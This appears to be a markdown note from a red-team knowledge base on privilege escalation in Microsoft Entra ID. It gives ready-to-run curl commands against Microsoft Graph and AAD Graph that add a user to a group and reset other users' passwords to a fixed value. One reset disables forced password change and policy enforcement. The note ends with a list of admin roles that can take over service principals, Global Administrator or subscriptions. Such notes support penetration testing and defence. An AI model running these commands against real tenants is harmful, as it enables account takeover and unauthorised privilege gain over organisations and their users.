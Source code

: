 ```yaml
---
title: Entra Escalation
---
```


[[notes/mitre-attack/privilege-escalation]] in [[notes/entra/index]].

Add the user with id `f66e133c-bd01-4b0b-b3b7-7cd949fd45f3` to the group `e6870783-1378-4078-b242-84c08c6dc0d7` trough AAD Graph.

~~~ bash
jq -n --arg tenant $tenant_id '{"url":"https://graph.windows.net/\($tenant)/directoryObjects/f66e133c-bd01-4b0b-b3b7-7cd949fd45f3"}' | curl -sSf -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" "https://graph.windows.net/$tenant_id/groups/e6870783-1378-4078-b242-84c08c6dc0d7/$links/members?api-version=1.6" -d @-
~~~

Reset the password of another user trough MS Graph.

~~~ bash
curl -sSf -H "Authorization: Bearer $msgraph_token" "https://graph.microsoft.com/v1.0/users/$upn/authentication/methods/28c10230-6103-485e-b985-444c60001490/resetPassword" -d '{"newPassword":"P@ssw0rd1234"}' | jq
~~~

Reset the password of another user trough AAD Graph.

~~~ bash
curl -sSf -H "Authorization: Bearer $aadgraph_token" "https://graph.windows.net/$tenant_id/users/$user_id?api-version=1.6" -d '{"passwordProfile":{"password":"P@ssw0rd1234","forceChangePasswordNextLogin":false,"enforceChangePasswordPolicy":false}}' -X PATCH -H 'Content-Type: application/json'
~~~

More paths:

- *Application Administrator* can take over all service principals ([source](http://web.archive.org/web/20230523081045/https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/))
- *Privileged Role Administrator* can become *Global Administrator* ([source](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#azure-ad-roles))
- *Global Administrator* can take over all subscriptions in the tenant by granting himself the *User Access Administrator* role in ARM ([source](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#elevate-azure-subscription-access), [source](http://web.archive.org/web/20230123080516/https://sofblocks.github.io/azure-attack-paths/#adding-global-admin-to-azure-subscriptions), [source](https://docs.microsoft.com/en-us/azure/role-based-access-control/elevate-access-global-admin))
